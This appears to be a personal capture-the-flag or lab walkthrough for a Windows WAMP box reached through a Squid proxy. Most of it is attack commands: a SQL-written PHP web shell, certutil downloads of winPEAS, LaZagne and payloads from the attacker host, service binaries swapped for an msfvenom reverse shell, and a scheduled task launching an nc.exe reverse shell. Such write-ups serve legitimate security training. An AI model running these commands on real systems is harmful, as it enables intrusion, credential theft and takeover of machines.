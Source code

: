 ### Hacktricks spose
```bash
❯ python3 spose.py --proxy http://192.168.59.189:3128 --target 192.168.59.189
Using proxy address http://192.168.59.189:3128
192.168.59.189 3306 seems OPEN 
192.168.59.189 8080 seems OPEN 
```
https://github.com/A1vinSmith/spose

### Curl
```bash
curl --proxy http://192.168.59.189:3128 http://192.168.59.189:8080
```

working tho, Better to go with FoxyProxy. 

### Phpmyadmin
http://192.168.59.189:8080/phpmyadmin/index.php

root as default creds will let you in

### Phpinfo and shell
`C:/wamp/www/index.php`

```sql
SELECT "<?php echo shell_exec($_GET['c']);?>" INTO OUTFILE 'C:/wamp/www/alvin1.php';
```

### Foothold get
```
certutil -urlcache -f http://192.168.49.59/winPEASx64.exe winPEASx64.exe

certutil -urlcache -f http://192.168.49.59/lazagne.exe lazagne.exe
```

### winpeas
```bash
.\winPEASx64.exe cmd fast > C:/wamp/www/winpeas_fast

curl --proxy http://192.168.59.189:3128 http://192.168.59.189:8080/winpeas_fast > winpeas_fast
```

##### sed
```bash
sed -n -e 1,500p winpeas_fast       -> Kernel exploit
sed -n -e 500,1000p winpeas_fast
sed -n -e 1000,1500p winpeas_fast
sed -n -e 1500,2000p winpeas_fast   -> Unquoted path
```

Check if you can overwrite some service binary or perform a DLL hijacking, also check for unquoted paths https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#services
    ApacheHTTPServer(Apache Software Foundation - Apache HTTP Server)["C:\wamp\bin\apache\apache2.4.46\bin\httpd.exe" -k runservice] - Auto - Running
    Possible DLL Hijacking in binary folder: C:\wamp\bin\apache\apache2.4.46\bin (Everyone [AllAccess], Users [AppendData/CreateDirectories WriteData/CreateFiles])
    Apache/2.4.46 (Win64)
   =================================================================================================

    MySQL(MySQL)[C:\wamp\bin\mysql\mysql5.7.31\bin\mysqld.exe MySQL] - Auto - Running - No quotes and Space detected
    Possible DLL Hijacking in binary folder: C:\wamp\bin\mysql\mysql5.7.31\bin (Everyone [AllAccess], Users [AppendData/CreateDirectories WriteData/CreateFiles])
   =================================================================================================

    squidsrv(Squid for Windows)[C:\Squid\bin\Diladele.Squid.Service.exe] - Auto - Running - isDotNet
    Possible DLL Hijacking in binary folder: C:\Squid\bin (Users [AppendData/CreateDirectories WriteData/CreateFiles])
    Reduces bandwidth and improves response times by caching and reusing frequently-requested web pages.
```
move C:\wamp\bin\apache\apache2.4.46\bin\httpd.exe C:\wamp\bin\apache\apache2.4.46\bin\httpd.backup
certutil -urlcache -f http://192.168.49.59/httpd.exe C:\wamp\bin\apache\apache2.4.46\bin\httpd.exe

move C:\Squid\bin\Diladele.Squid.Service.exe C:\Squid\bin\Diladele.Squid.Service.backup
certutil -urlcache -f http://192.168.49.59/Diladele.Squid.Service.exe C:\Squid\bin\Diladele.Squid.Service.exe

move C:\wamp\bin\mysql\mysql5.7.31\bin\mysqld.exe C:\wamp\bin\mysql\mysql5.7.31\bin\mysqld.backup
certutil -urlcache -f http://192.168.49.59/mysqld.exe C:\wamp\bin\mysql\mysql5.7.31\bin\mysqld.exe


msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.49.59 LPORT=3306 -f exe -o httpd.exe
```
```
certutil -urlcache -f http://192.168.49.59/AppXSVC_poc_x64.exe AppXSVC_poc_x64.exe

.\AppXSVC_poc_x64.exe c:\windows\system.ini
```

### Stuck so go for hint
 Privilege Escalation

A scheduled task can be created to gain default permissions and another task can be created to gain SeImpersonatePrivilege. 

```
schtasks /query /fo LIST /v

PS C:\wamp\www> Get-ScheduledTask | select TaskName,State

C:\windows\tasks
```
# Root with unique powershell bypass skill
```
$TaskAction = New-ScheduledTaskAction -Execute "powershell.exe" -Argument "-Exec Bypass -Command `"C:\wamp\www\nc.exe 192.168.49.59 4444 -e cmd.exe`""
```

```
$TaskAction = New-ScheduledTaskAction -Execute "powershell.exe" -Argument "-Exec Bypass -Command `"C:\wamp\www\nc.exe 192.168.49.59 4444 -e cmd.exe`""
```
```
Register-ScheduledTask -Action $TaskAction -TaskName "GrantAllPerms1" -Principal $TaskPrincipal
```